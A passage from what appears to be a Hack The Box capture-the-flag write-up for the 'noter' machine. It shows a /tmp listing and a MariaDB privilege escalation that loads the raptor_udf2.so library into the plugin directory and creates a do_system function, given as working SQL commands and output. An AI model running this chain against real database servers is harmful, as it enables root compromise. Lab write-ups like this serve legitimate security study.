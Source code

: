 <img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/LINUX/noter/assets/images/13.png" >
</center>

```shell
svc@noter:/tmp$ ls
1                                    systemd-private-536b93aa4bc545639637298d832813c1-systemd-logind.service-ZAApgg     tmux-1001
linpeas.sh                           systemd-private-536b93aa4bc545639637298d832813c1-systemd-resolved.service-fP2AGh   vmware-root_741-4248811580
puppeteer_dev_chrome_profile-ZDfdLZ  systemd-private-536b93aa4bc545639637298d832813c1-systemd-timesyncd.service-3Aq7cf
puppeteer_dev_chrome_profile-ckz4Aq  systemd-private-536b93aa4bc545639637298d832813c1-upower.service-UYz2hj
svc@noter:/tmp$ ls -al 1
-rw-r--r-- 1 root root 2 Sep  6 16:33 1
```


## Privilege Escalation

From the source code, we got the db credentials as `DB_user & root` using root user checked the udf part that was working fine. So used the `raptor script` to escalate the privilege.

```sql
MariaDB [mysql]> use mysql;
Database changed
MariaDB [mysql]> create table foo(line blob);
Query OK, 0 rows affected (0.006 sec)

MariaDB [mysql]> insert into foo values(load_file('/tmp/raptor_udf2.so'));
Query OK, 1 row affected (0.003 sec)

MariaDB [mysql]> show variables like '%plugin%';
+-----------------+---------------------------------------------+
| Variable_name   | Value                                       |
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
2 rows in set (0.002 sec)

MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.001 sec)

MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.001 sec)

```